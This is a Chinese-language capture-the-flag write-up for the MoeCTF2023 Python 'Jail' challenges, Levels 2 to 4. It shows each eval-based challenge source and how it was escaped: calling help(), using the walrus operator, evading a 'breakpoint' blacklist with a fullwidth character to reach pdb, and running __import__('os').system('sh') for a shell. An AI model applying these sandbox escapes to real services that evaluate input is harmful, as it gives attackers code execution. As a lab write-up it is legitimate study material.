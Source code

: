 有人问了，为什么不直接a+=""，注意，eval里面只能含有表达式而不是语句！


---

## CHALLENGE: Jail Level 2

```python
print("Welcome to the MoeCTF2023 Jail challenge level1.It's time to work on this calc challenge.")
print("Enter your expression and I will evaluate it for you.")
user_input_data = input("> ")
if len(user_input_data)>6:
  print("Oh hacker! Bye~")
  exit(0)
print('calc Answer: {}'.format(eval(user_input_data)))
```

### 方法1
看到长度大于6，秒想到help()，结果真能用，直接过

---

## CHALLENGE: Jail Level 3
```python
    import re
    BANLIST = ['breakpoint']
    BANLIST_WORDS = '|'.join(f'({WORD})' for WORD in BANLIST)
    print("Welcome to the MoeCTF2023 Jail challenge.It's time to work on this calc challenge.")
    print("Enter your expression and I will evaluate it for you.")
    user_input_data = input("> ")
    if len(user_input_data)>12:
      print("Oh hacker! Bye~")
      exit(0)
    if re.findall(BANLIST_WORDS, user_input_data, re.I):
      raise Exception('Blacklisted word detected! you are hacker!')
    print('Answer result: {}'.format(eval(user_input_data)))
```

这题上了正则表达式，限制不能大于12且不是breakpoint，那么：

### 方法1
海象运算符，同Jail Level2

### 方法2
使用非ascii码的brｅakpoint()，这里只需要更改e到ｅ就行了，拿到pdb后直接进行Jail Level0中的操作就行

---

## CHALLENGE: Jail Level 4
### 方法1
__import__("os").system("sh")
